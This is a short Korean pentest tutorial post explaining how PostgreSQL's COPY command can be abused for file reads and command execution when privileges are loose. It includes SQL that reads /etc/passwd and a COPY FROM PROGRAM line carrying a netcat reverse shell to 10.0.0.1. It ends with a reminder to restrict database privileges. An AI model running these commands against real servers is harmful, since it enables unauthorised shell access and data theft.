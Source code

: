 ```yaml
---
title: postgresql with Command Execution
date: 2025-01-31
author: glasses96
categories: [pentest]
tags: [pentest]
pin: true
math: true
mermaid: true
---
```


> **postgresql 접근이 가능하면 RCE가 가능할 수도 있습니다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## What is Postgresql
postgresql은 오픈소스 관계형 데이터베이스 관리 시스템(RDBMS)입니다.  
무료로 사용이 가능하며, 안정성과 확장성이 좋은 평가를 받고있다고 공식홈페이지에서 소개를 하고 있습니다.  

## How to Command Execution with postgresql
[COPY]("https://www.postgresql.org/docs/current/sql-copy.html") 기능을 사용하는 것입니다.  
아래의 권한을 부여 받았더라면 해당 권한을 이용하여 쿼리를 이용하여 서버에 파일을 읽거나 쓰기가 가능하며, 명령을 실행할 수 도 있습니다.  
postgresql은 설치 과정에서 `postgres` 라는 슈퍼유저 계정을 자동으로 생성하기 때문에 보안의 입장에서는 해당 계정에 대한 제어가 필요합니다.  

- superuser
- pg_read_server_files — 파일 읽기 허용
- pg_write_server_files — 파일에 쓰기 허용
- pg_execute_server_program — 운영 체제에서 직접 명령을 실행 가능

### COPY TO/FROM
해당 명령은 사용자가 운영 체제와 직접 상호 작용할 수 있도록 가능하여 공격자 입장에서 RCE 명령을 통해 DB계정으로 서버의 쉘 권한을 획득이 가능합니다.

예를 들어 서버의 passwd 파일을 읽고 싶다면 아래와 같은 명령어를 통해 파일 내용을 테이블에 추가할 수 있습니다.
1. CREATE TABLE read_files(output text);
2. COPY read_files FROM ('/etc/passwd');
3. SELECT * FROM read_files;

![DB](/assets/post/61/passwd.png)

### COPY TO/FROM PROGRAM to RCE
만약 아래와 같이 RCE 명령이 실행되면 postgres라는 권한의 쉘을 획득할 수 있습니다.  

1. CREATE TABLE shell(output text);
2. COPY shell FROM PROGRAM `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.0.0.1 1234 >/tmp/f`;


## Reference
- https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767
- https://www.postgresql.org/docs/current/sql-copy.html

## 마무리하며
postgresql의 COPY라는 기능을 이용하여 Command Execution이 가능한 것을 알아보았습니다.  
이를 통해 DB의 권한을 잘 부여해서 사용해야한다는 점을 명심해야겠습니다. 